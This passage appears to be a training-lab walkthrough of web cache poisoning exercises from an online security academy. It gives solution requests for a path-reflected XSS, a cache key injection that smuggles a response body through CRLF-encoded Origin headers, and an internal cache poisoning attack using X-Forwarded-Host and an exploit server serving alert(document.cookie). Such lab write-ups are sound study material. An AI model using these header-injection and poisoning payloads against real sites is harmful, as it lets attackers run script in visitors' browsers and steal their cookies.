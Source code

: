 **Solution:**

```
GET /random</p><script>alert(1)</script><p>foo HTTP/1.1
---
https://ac331f211f8e8ebec0a1107e0004005a.web-security-academy.net/random</p><script>alert(1)</script><p>foo
```

### Lab: Cache key injection

This lab contains multiple independent vulnerabilities, including cache key injection. A user regularly visits this site's home page using Chrome.

To solve the lab, combine the vulnerabilities to execute alert(1) in the victim's browser. Note that you will need to make use of the Pragma: x-get-cache-key header in order to solve this lab.

**Solution:**

```
GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/1.1
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$

Decoded:
-----
Origin: x
Content-Length: 8

alert(1)$$$$
-----

GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/1.1

Decoded:
-----
/login?lang=en?utm_content=x&cors=1&x=1$$Origin=x
Content-Length: 8

alert(1)$$#
-----
```

### Lab: Internal cache poisoning

This lab is vulnerable to web cache poisoning. It uses multiple layers of caching. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the internal cache so that the home page executes alert(document.cookie) in the victim's browser.

```
GET /?cb=123 HTTP/1.1
Host: ac4f1ffd1e28702fc1321234002b009e.web-security-academy.net
X-Forwarded-Host: exploit-acc11fdd1e707021c102127b01160029.web-security-academy.net
```

Send it constantly, because, timing is the key. We should see exploit server url in the response 3 times.

**Exploit Server ->**

```
File:
	/js/geolocate.js
Body:
	alert(document.cookie)
```
